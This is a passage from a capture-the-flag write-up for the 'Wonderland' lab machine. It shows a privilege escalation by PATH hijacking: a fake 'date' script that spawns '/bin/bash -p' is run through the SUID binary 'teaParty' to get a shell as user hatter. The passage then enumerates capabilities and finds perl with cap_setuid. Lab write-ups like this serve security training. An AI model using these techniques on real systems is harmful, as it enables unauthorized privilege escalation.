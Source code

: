 You will notice, the program using "echo" binary to print out "date" in linux!

Which mean we can hijack the it in "PATH" and create our own "date", this will allow the program use our "date" instead of system !

```bash
rabbit@wonderland:/home/rabbit$ vi date
rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rw-r--r-- 1 rabbit rabbit    26 Aug  9 08:53 date
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rwxrwxrwx 1 rabbit rabbit    26 Aug  9 08:53 date
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

/bin/bash -p
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$
```

Now let's run teaParty program again, and we got access to hatter !

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:/home/rabbit$
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -l
total 4
-rw------- 1 hatter hatter 29 May 25  2020 password.txt
```

Well, there is a password.txt in hatter home !

Let's access the system using hatter credentials and perform enumeration again !

After common enumeration, nothing useful for us to get PrivEsc, hence decided to check if we got any binary with capabilities.

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
